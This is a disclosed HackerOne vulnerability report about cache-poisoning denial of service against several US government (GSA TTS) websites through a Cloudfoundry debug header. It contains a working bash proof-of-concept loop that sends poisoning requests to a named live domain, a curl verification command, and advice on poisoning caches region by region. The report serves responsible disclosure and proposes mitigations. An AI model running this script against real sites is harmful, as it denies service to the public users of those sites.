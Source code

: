 # Cache poisoning DoS to various TTS assets

## Report Details
- **Report ID**: 728664
- **URL**: https://hackerone.com/reports/728664
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-11-04T07:36:48.616Z
- **Disclosed**: 2020-03-12T16:02:40.277Z

## Reporter
- **Username**: nathand
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
I have recently come across a technique to force a Cloudfoundry app to return a HTTP 404 error when requesting any resource, which contains cache friendly headers. What this means is, if the Cloudfoundry app in question is behind a web cache like Cloudfront or Cloudflare etc, it will possibly store a copy of the 404 error response as the cache for the resource being requested, which is served to other users. This describes a cache poisoning Denial of Service, and the concept for this is detailed at https://cpdos.org.

The technique to achieve CPDoS against a Cloudfoundry and hence TTS app is to send a request with the following header:

```
X-CF-APP-INSTANCE
```

This header is designed to allow admins to debug CF apps, by choosing which app instance they want serving their request. However, if we supply this header with a bad value, it will force the gorouter in the Cloudfoundry stack to issue a HTTP 404, e.g.:

```
X-CF-APP-INSTANCE: xxx:1
```

**Please note: I have already reported this to Pivotal/Cloudfoundry by contacting their security email address directly.** They have not yet confirmed the vulnerability, although I'm fairly confident the issue exists in gorouter. However, I thought it relevant to report this to you regardless, as you should be able to mitigate this vulnerability without waiting for Pivotal to release an update for gorouter, by configuring your web caches/WAFs appropriately (don't cache 404's, strip out this header etc). With that said, I understand if this report is not valid due to this - if this is the case, a heads up so I can close it from my end would be appreciated.

The following assets appear to be vulnerable:

```
analytics.usa.gov
federation.data.gov
18f.gsa.gov
code.gov
```

Please note that this is not an exhaustive list as I did not test against every asset in scope, however I did attempt the poisoning against `login.gov` and did not succeed, which I suspect might be because `login.gov` is specifically configured not to cache 404 errors. With that said, the config for `login.gov` may provide a means to protect the above listed assets and others that may be vulnerable.

## Proof of concept

To poison the cache for a resource, the following script can be used - in this case, `https://federation.data.gov/?cb=xxx` is being poisoned to serve a 404 error to other users. Please note the presence of the `?cb=xxx` query string - this is designed to be a "cache buster", to prevent poisoning the real home page. You may need to change the cache buster value to avoid hitting a previous successful cached copy.

```
#!/bin/bash

while true
do
    printf 'GET /?cb=xxx HTTP/1.1\r\n'\
'Host: federation.data.gov\r\n'\
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0\r\n'\
'Accept: */*\r\n'\
'Accept-Language: en-US,en;q=0.5\r\n'\
'Accept-Encoding: gzip, deflate\r\n'\
'X-CF-APP-INSTANCE: xxx:1\r\n'\
'Connection: close\r\n'\
'\r\n'\
    | openssl s_client -ign_eof -connect federation.data.gov:443
    sleep 1
done
```

(FYI the poisoning script can probably sleep longer than 1 second - this is just to make sure the poisoning takes effect)

You should see 404 errors being returned in this script's output. Because the web cache appears to key on `Cookie` header values, this will only poison the cache for users without a pre-existing cookie for the domain (i.e. new users). This can be demonstrated by the following curl command (or by accessing the resource in a private browser window session without pre-existing cookies):

```
curl -i -s -k -X $'GET' \
    -H $'Host: federation.data.gov' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' \
    $'https://federation.data.gov/?cb=xxx'
```

If there are specific resources and assets which don't key cache on cookie headers, then these will probably be easier to exploit against more users. 

In this asset's case, the error will be:

```
404 Not Found: Requested route ('cg-06ab120d-836f-49a2-bc22-9dfb1585c3c6.app.cloud.gov') does not exist.
```

A bonus here is this error reveals an "internal" hostname otherwise not accessible to an attacker.

Given the assets all appear to use Cloudfront for caching, it is true that the poisoning will be regional - however, it is fairly trivial to acquire VPS' around the world (or perhaps just around the US in this case) to poison specific regions, and using a tool like https://www.nexcess.net/web-tools/dns-checker/, an attacker may be able to determine regional IPs for the asset, and poison regions by directly targeting them (not confirmed - I was aware of a technique to do this but was unable to confirm this).

One thing I did notice is these poisoning attacker requests may not hit the app logs in Cloudfoundry, e.g. the `cf logs APP_NAME` output, since it errors at the gorouter. If you have app logging dependent on displaying what is visible in the CF app logs, it may not detect these attacks.

## Impact

By exploiting this vulnerability, an attacker may be able to achieve denial of service for various TTS assets, particularly to new users.

## Attachments
No attachments
